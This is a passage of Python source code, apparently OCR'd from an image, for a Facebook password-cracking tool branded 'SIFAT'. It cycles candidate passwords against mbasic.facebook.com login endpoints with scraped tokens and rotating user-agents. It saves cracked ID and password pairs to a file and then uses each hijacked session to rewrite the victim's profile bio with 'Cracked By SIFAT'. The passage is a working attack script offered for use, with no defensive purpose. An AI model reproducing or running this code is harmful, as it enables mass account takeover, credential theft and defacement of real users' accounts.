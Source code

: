 								pwv.append(lsd+'123')
						except:
							pass
				except:
					pass
			pool.submit(crack1,idf,pwv)
	print("")
	linex()
	print(' \033[1;92m[✔] CRACK PROCESS HAS BEEN COMPLETED')
	print(' \033[1;92m[✔] Saved In SIFAT-OK.txt,SIFAT-CP.txt')
	linex()
oks=[]



def crack1(idf,pwv):
	global loop,oks
	#bo = random.choice([m,k,h,b,u,x])
	#sys.stdout.write(f"\r [SIFAT] {loop}/{len(id)}{h}] {h}[OK] {h}[{ok}] {h}[{''.format(loop/float(len(id)))}] ")
	#sys.stdout.flush()
	sys.stdout.write('\r\033[1;37m [SIFAT] %s|\033[1;32mOK:-%s\033[1;37m\r'%(loop,len(oks)));sys.stdout.flush()
	ua = random.choice(ugen)
	ua2 = random.choice(ugen)
	ses = requests.Session()
	for pw in pwv:
		try:
			pw = pw.lower()
			ses.headers.update({"Host":'mbasic.facebook.com',"upgrade-insecure-requests":"1","user-agent":ua2,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","dnt":"1","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":"https://mbasic.facebook.com/","accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
			p = ses.get('https://mbasic.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&locale=id_ID&_rdr').text
			dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":idf,"flow":"login_no_pin","pass":pw,"next":"https://mbasic.facebook.com/login/save-device/'"}
			ses.headers.update({"Host":'mbasic.facebook.com',"cache-control":"max-age=0","upgrade-insecure-requests":"1","origin":"https://mbasic.facebook.com","content-type":"application/x-www-form-urlencoded","user-agent":ua,"accept":"text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*[inserted by cython to avoid comment closer]/[inserted by cython to avoid comment start]*;q=0.8,application/signed-exchange;v=b3;q=0.9","x-requested-with":"mark.via.gp","sec-fetch-site":"same-origin","sec-fetch-mode":"cors","sec-fetch-user":"empty","sec-fetch-dest":"document","referer":'https://mbasic.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&refsrc=deprecated&locale=id_ID&_rdr',"accept-encoding":"gzip, deflate br","accept-language":"en-GB,en-US;q=0.9,en;q=0.8"})
			po = ses.post('https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0&locale2=id_ID',data=dataa,allow_redirects=False)
			if "c_user" in ses.cookies.get_dict().keys():
				print (' \x1b[1;92m[SIFAT-OK] '+idf+'|'+pw)
				open('/sdcard/SIFAT-OK.txt','a').write(idf+'|'+pw+'\n')
				try:
					pi = ses.get('https://m.facebook.com/').text
					cookies=ses.cookies.get_dict()
					data ={"fb_dtsg":re.search('name="fb_dtsg" value="(.*?)"', str(pi)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"',str(pi)).group(1), 'bio':"Cracked By SIFAT (SIFAT TERMUX ZONE')"}
					response = ses.post('https://m.facebook.com/profile/intro/bio/save/', cookies=cookies,data=data)
				except:pass
				